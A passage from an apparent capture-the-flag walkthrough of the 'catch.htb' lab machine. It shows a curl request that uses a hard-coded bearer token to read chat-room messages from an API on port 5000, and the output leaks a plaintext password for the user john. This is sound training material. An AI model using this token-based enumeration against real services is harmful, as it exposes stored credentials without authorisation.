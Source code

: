 ```
    "private": false,
    "hasPassword": false,
    "participants": []
  }
]
```

Let us now try to obtain the messages for Cachet Updates and Maintenance. From the output, we are able to obtain the credentials of John on http://status.catch.htb. Let us keep the credentials in mind as we move on for our enumeration of other ports.

```
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -iLk http://catch.htb:5000/rooms/61b86b28d984e2451036eb17/messages
[
  {
    "id": "61b8732cfe190b466d476c02",
    "text": "ah sure!",
    "posted": "2021-12-14T10:34:20.749Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b8731ffe190b466d476c01",
    "text": "You should actually include this task to your list as well as a part of quarterly audit",
    "posted": "2021-12-14T10:34:07.449Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b872b9fe190b466d476c00",
    "text": "Also make sure we've our systems, applications and databases up-to-date.",
    "posted": "2021-12-14T10:32:25.514Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b87282fe190b466d476bff",
    "text": "Excellent! ",
    "posted": "2021-12-14T10:31:30.403Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b87277fe190b466d476bfe",
    "text": "Why not. We've this in our todo list for next quarter",
    "posted": "2021-12-14T10:31:19.094Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b87241fe190b466d476bfd",
    "text": "@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
    "posted": "2021-12-14T10:30:25.108Z",
    "owner": "61b86aead984e2451036eb16",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b8702dfe190b466d476bfa",
    "text": "Here are the credentials `john :  E}V!mywu_69T4C}W`",
    "posted": "2021-12-14T10:21:33.859Z",
    "owner": "61b86f15fe190b466d476bf5",
```